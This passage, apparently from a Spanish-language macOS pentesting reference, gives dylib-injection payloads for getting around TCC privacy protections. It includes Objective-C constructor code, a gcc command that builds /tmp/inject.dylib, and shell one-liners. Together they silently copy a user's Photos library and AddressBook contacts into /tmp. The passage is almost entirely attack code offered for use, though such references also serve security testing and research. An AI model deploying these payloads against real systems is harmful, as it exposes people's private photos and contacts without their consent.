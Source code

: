 ```objectivec
NSFileManager *fileManager = [NSFileManager defaultManager];
NSError *error = nil;

// Get the path to the user's Pictures folder
NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Pictures/Photos Library.photoslibrary"];
NSString *tmpPhotosPath = @"/tmp/photos";

// Copy the contents recursively
if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
NSLog(@"Error copying items: %@", error);
}

NSLog(@"Copy completed successfully.", error);

fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
Copia `$HOME/Pictures/Photos Library.photoslibrary` a `/tmp/photos`.
```bash
cp -r "$HOME/Pictures/Photos Library.photoslibrary" "/tmp/photos"
```
### Contactos

* **Entitlement**: `com.apple.security.personal-information.addressbook`
* **TCC**: `kTCCServiceAddressBook`

{% tabs %}
{% tab title="ObjetiveC" %}
Copia `$HOME/Library/Application Support/AddressBook` a `/tmp/contacts`.
```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

NSFileManager *fileManager = [NSFileManager defaultManager];
NSError *error = nil;

// Get the path to the user's Pictures folder
NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Library/Application Support/AddressBook"];
NSString *tmpPhotosPath = @"/tmp/contacts";

// Copy the contents recursively
if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
NSLog(@"Error copying items: %@", error);
}

NSLog(@"Copy completed successfully.", error);

fclose(stderr); // Close the file stream
}
```